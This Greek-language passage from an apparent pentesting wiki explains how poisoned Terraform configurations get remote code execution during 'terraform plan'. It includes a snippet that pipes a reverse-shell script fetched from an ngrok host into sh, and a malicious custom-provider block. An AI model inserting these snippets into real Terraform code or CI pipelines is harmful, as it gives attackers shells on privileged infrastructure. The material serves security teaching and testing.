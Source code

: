 Ωστόσο, το terraform είναι ένα **πολύ ευαίσθητο στοιχείο** για να συμβιβαστεί, διότι θα έχει **προνομιακή πρόσβαση** σε διάφορες τοποθεσίες ώστε να μπορεί να λειτουργεί σωστά.

Ο κύριος τρόπος για έναν επιτιθέμενο να μπορέσει να συμβιβάσει το σύστημα όπου εκτελείται το terraform είναι να **συμβιβάσει το αποθετήριο που αποθηκεύει τις διαμορφώσεις terraform**, διότι σε κάποιο σημείο θα **ερμηνευτούν**.

Στην πραγματικότητα, υπάρχουν λύσεις εκεί έξω που **εκτελούν το terraform plan/apply αυτόματα μετά τη δημιουργία ενός PR**, όπως το **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Αν μπορείτε να συμβιβάσετε ένα αρχείο terraform, υπάρχουν διάφοροι τρόποι που μπορείτε να εκτελέσετε RCE όταν κάποιος εκτελεί `terraform plan` ή `terraform apply`.

### Terraform plan

Το Terraform plan είναι η **πιο χρησιμοποιούμενη εντολή** στο terraform και οι προγραμματιστές/λύσεις που χρησιμοποιούν το terraform την καλούν συνεχώς, οπότε ο **ευκολότερος τρόπος για να αποκτήσετε RCE** είναι να βεβαιωθείτε ότι δηλητηριάζετε ένα αρχείο διαμόρφωσης terraform που θα εκτελεί αυθαίρετες εντολές σε ένα `terraform plan`.

**Χρησιμοποιώντας έναν εξωτερικό πάροχο**

Το Terraform προσφέρει τον [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) που παρέχει έναν τρόπο διεπαφής μεταξύ του Terraform και εξωτερικών προγραμμάτων. Μπορείτε να χρησιμοποιήσετε την πηγή δεδομένων `external` για να εκτελέσετε αυθαίρετο κώδικα κατά τη διάρκεια ενός `plan`.

Η εισαγωγή σε ένα αρχείο διαμόρφωσης terraform κάτι σαν το παρακάτω θα εκτελέσει ένα rev shell κατά την εκτέλεση του `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
**Χρησιμοποιώντας έναν προσαρμοσμένο πάροχο**

Ένας επιτιθέμενος θα μπορούσε να στείλει έναν [προσαρμοσμένο πάροχο](https://learn.hashicorp.com/tutorials/terraform/provider-setup) στο [Terraform Registry](https://registry.terraform.io/) και στη συνέχεια να τον προσθέσει στον κώδικα Terraform σε ένα feature branch ([παράδειγμα από εδώ](https://alex.kaskaso.li/post/terraform-plan-rce)):
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
Ο πάροχος κατεβαίνει στο `init` και θα εκτελέσει τον κακόβουλο κώδικα όταν εκτελείται το `plan`
